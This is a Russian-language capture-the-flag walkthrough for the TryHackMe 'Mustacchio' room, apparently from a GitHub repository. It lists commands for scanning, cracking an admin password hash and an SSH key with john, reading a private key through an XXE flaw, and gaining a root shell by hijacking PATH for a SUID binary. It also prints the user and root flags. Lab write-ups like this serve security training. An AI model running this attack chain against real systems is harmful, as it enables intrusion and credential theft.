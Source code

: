 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Mustacchio](https://tryhackme.com/r/room/mustacchio) 

Всего 1 заданиe:
## Задание 1
Убедитесь, что вы подключены к сети TryHackMe. Если вы не знаете, как это сделать, сначала пройдите  комнату OpenVPN .

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sC -sV -p- <IP>
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>
# http://<IP>/custom/js/mobile.js
file users.bak
sqlite3 users.bak
# admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
hash-identifier
echo `1868e36a6d2b17d4c2745f1659433a54d4bc5f4b` > user_hash
john user_hash --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt 
# admin:bulldog19
# http://<IP>:8765
XXE vulnerability
/home/barry/.ssh/id_rsa
ssh2john id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
chmod 600 id_rsa
ssh -i id_rsa barry@<IP>
cat user.txt
```
```commandline
62d77a4d5f97d47c5aa38b3b2651b831
```
Что такое корневой флаг?
```commandline
find / -user root -perm -4000 — exec ls -ldb {} \;
file live_log
strings live_log
```
`tail -f /var/log/nginx/accessl.log` показывает нам, что исполняемый файл запущен без полного пути (например, не 
использует /usr/bin/curl или /usr/bin/uname). Как это использовать?
```commandline
1. Создайте новый каталог в папке /tmp/, например:
mkdir /tmp/shell
2. Перейдите в эту папку:
cd /tmp/shell
3. Измените папку /usr/bin на /tmp/shell
export PATH=/tmp/shell:$PATH
4. Создайте файл tail, введите эти две команды:
echo '#!/bin/bash' > tail
echo '/bin/bash' >> tail
5. Измените права доступа для файла tail
chmod +x tail
6. Вернитесь в live_log и запустите файл
./live_log

cat /root/root.txt
```
```commandline
3223581420d906c4dd1a5f9b530393a5
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)